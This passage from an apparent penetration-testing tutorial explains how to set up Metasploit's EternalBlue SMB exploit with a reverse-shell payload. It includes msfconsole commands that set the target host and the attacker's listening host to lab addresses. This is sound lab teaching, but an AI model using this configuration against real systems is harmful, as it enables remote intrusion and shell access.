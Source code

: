 We can also see that a new option field has appeared, directly related to what the payload parameters will contain. We will be focusing on `LHOST` and `LPORT` (our attacker IP and the desired port for reverse connection initialization). Of course, if the attack fails, we can always use a different port and relaunch the attack.

---

## Using Payloads

Time to set our parameters for both the Exploit module and the payload module. For the Exploit part, we will need to set the following:

|**Parameter**|**Description**|
|---|---|
|`RHOSTS`|The IP address of the remote host, the target machine.|
|`RPORT`|Does not require a change, just a check that we are on port 445, where SMB is running.|

For the payload part, we will need to set the following:

|**Parameter**|**Description**|
|---|---|
|`LHOST`|The host's IP address, the attacker's machine.|
|`LPORT`|Does not require a change, just a check that the port is not already in use.|

If we want to check our LHOST IP address quickly, we can always call the `ifconfig` command directly from the msfconsole menu.

#### MSF - Exploit and Payload Configuration

  MSF - Exploit and Payload Configuration

```shell
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```
